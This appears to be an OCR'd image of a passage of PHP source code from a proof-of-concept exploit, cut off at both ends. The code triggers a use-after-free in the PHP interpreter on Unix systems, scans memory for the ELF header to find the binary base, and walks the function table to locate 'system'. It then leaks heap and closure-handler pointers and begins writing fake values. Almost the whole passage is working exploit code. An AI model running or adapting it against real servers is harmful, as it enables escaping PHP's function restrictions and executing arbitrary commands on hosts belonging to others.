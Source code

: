 ```php
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle(str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle(str_repeat('A', 79));

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

```